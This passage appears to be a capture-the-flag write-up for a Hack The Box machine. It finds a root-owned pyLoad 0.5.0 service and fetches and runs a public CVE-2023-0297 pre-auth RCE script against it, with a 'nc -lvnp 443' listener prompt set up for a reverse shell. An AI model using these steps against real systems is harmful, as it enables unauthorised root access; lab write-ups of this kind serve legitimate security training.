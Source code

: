Port 8000 looks interesting. I set up an `ssh` port forwarding and check it out. It's running PyLoad:

![](_/htb-pc-20231113-1.png)

On the target I can see which use it's running as (`root`) and find out the version.

```console
sau@pc:~$ ps faxuww |grep pyload
root        1052  0.0  1.7 1226704 69536 ?       Ssl  18:37   0:06 /usr/bin/python3 /usr/local/bin/pyload
sau         1986  0.0  0.0   6676   720 pts/0    S+   20:40   0:00              \_ grep --color=auto pyload

sau@pc:~$ pyload --version
pyLoad 0.5.0
```

This version of `pyload` has [a preauth RCE](https://nvd.nist.gov/vuln/detail/CVE-2023-0297), and in this case the service is running with `root` privileges.

```console
$ wget https://raw.githubusercontent.com/overgrowncarrot1/CVE-2023-0297/main/CVE-2023-0297.sh
[...]
2023-11-13 14:44:44 (11.4 MB/s) - ‘CVE-2023-0297.sh’ saved [2472/2472]

$ chmod +x CVE-2023-0297.sh

$ ./CVE-2023-0297.sh  -l 10.10.16.5 -p 443 -w http://localhost:8000
         _____ _____  _____    ________   ___     _____  ___ ______ 
        |  _  |  __ \/  __ \   | ___ \ \ / / |   |  _  |/ _ \|  _  \
        | | | | |  \/| /  \/   | |_/ /\ V /| |   | | | / /_\ \ | | |
        | | | | | __ | |       |  __/  \ / | |   | | | |  _  | | | |
        \ \_/ / |_\ \| \__/\   | |     | | | |___\ \_/ / | | | |/ / 
         \___/ \____/ \____/   \_|     \_/ \_____/\___/\_| |_/___/  

 
Run nc -lvnp 443, press enter to continue
```